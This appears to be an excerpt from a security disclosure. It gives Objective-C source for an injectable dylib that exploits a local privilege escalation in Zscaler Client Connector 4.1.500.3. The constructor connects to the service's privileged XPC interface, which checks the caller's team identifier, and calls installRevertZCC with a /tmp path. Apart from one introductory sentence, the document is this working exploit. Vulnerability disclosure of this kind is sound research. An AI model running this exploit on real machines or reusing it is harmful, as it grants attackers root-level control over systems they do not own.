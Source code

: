 The following Objective-C code connects to the `com.zscaler.service-tray-communication` NSXPC interface which can only be done if the `TeamIdentifier` of the connecting process matches `PCBCQZJ7S7`.
```c
/*
* Zscaler Client Connector 4.1.500.3 Local Privilege Escalation 
* Filename: installRevertZCC.m
*/

#import <Foundation/Foundation.h>
#import <Security/Security.h>
#import <Cocoa/Cocoa.h>

@protocol XPCProtocol
- (void)getVersionWithReply:(void (^)(NSString *))arg1;
- (void)installRevertZCC:(NSString *)arg1 reply:(void (^)(BOOL))arg2;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
    NSLog(@"[INFO] dylib constructor called from %s", argv[0]);

    static NSString* TrayTunnelCommunicationXPC = @"com.zscaler.service-tray-communication";
    NSString* _serviceName = TrayTunnelCommunicationXPC;
    NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];
    
    [_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(XPCProtocol)]];
    [_agentConnection resume];

    _agentConnection.interruptionHandler = ^{
        NSLog(@"[CONNECTTOHELPERTOOL_ERROR] Connection Terminated");
    };

    _agentConnection.invalidationHandler = ^{
        NSLog(@"[CONNECTTOHELPERTOOL_ERROR] Connection Interrupted");
    };

    id obj = [_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
        NSLog(@"[CONNECTTOHELPERTOOL_ERROR] Something went wrong (remoteObjectProxyWithErrorHandler) %@", error);
        [[NSApplication sharedApplication] terminate:nil];
    }];

    NSLog(@"[CONNECTTOHELPERTOOL] obj: %@", obj);
    NSLog(@"[CONNECTTOHELPERTOOL] conn: %@", _agentConnection);
    [obj getVersionWithReply:^(NSString * version) {
        NSLog(@"[getVersionWithReply] version: %@", version);
    }];

    BOOL * res = false;
    [obj installRevertZCC:@"/tmp" reply:^(BOOL res) {
        NSLog(@"[installRevertZCC] Response: \"%hhd\"", res);
    }];

    [NSThread sleepForTimeInterval:5.0f];
    NSLog(@"[INFO] Exiting, bye bye !");

    [[NSApplication sharedApplication] terminate:nil];
}
```
